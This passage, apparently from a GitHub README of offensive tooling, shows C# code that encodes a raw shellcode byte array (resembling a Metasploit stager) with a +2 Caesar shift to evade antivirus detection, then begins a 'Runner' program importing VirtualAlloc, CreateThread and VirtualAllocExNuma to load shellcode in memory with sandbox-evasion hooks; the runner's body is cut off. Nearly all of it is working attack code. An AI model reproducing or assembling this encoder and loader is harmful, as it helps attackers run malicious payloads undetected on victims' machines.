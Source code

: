 ```csharp
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,
0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,
0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,
0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,
0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,
0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };
    
    
    byte[] encoded = new byte[buf.Length];
    for (int i = 0; i < buf.Length; i++)
    
    {
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xff);
    }

    StringBuilder hex = new StringBuilder(encoded.Length * 2);
    foreach (byte b in encoded)

    {
    hex.AppendFormat("0x{0:x2}, ", b);
    }

    Console.WriteLine("The payload is: " + hex.ToString());
    Console.WriteLine("Length was: " + buf.Length.ToString());
    }
    }
}
```

<br>

### **Runner**
***

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace Met
{
    class Program
    {
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

    [DllImport("kernel32.dll")] static extern void Sleep(uint dwMilliseconds);
```
